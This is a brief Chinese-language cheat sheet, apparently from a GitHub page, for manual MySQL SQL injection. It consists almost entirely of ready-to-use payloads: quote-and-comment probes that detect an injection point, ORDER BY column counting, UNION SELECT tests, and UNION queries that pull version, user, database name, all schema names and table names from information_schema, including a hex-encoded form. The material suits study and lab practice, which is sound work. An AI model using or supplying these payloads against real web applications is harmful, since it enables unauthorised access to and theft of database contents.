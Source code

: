 ## 
![1](https://image.baidu.com/search/down?tn=download&word=download&ie=utf8&fr=detail&url=https://ws3.sinaimg.cn/large/006Xzox4ly1g0pom0382gj30b40b43yx.jpg)

注释
--+
-- 任意符号
%23  (#ur编码)

判断注入
1' and 1=1 --+
1' and 1=2 --+

查询字段
1' order by 1 --+ 正常
1' order by 4 --+ 报错
1' order by 3 --+ 正常
字段为3

UNION SELECT 联合查询
-1' union select 1,2,3 --+
1' and 1=2 union select 1,2,3 --+
报错2，3

信息收集
version()   #Mysql版本
user()      #数据库用户名
database()  #数据库名
@@datadir() #数据库路径

查询所有数据库
-1'  union select 1, 2, group_concat(schema_name) from information_schema.schemata --+

查询当前数据库的所有表名
-1'  union select 1, 2, group_concat(table_name) from information_schema.tables where table_schema=database() --+
-1'  union select 1, 2, group_concat(table_name) from information_schema.tables where table_schema='security' --+
-1'  union select 1, 2, group_concat(table_name) from information_schema.tables where table_schema=0x7365637572697479 --+ hex编码 前面加0x














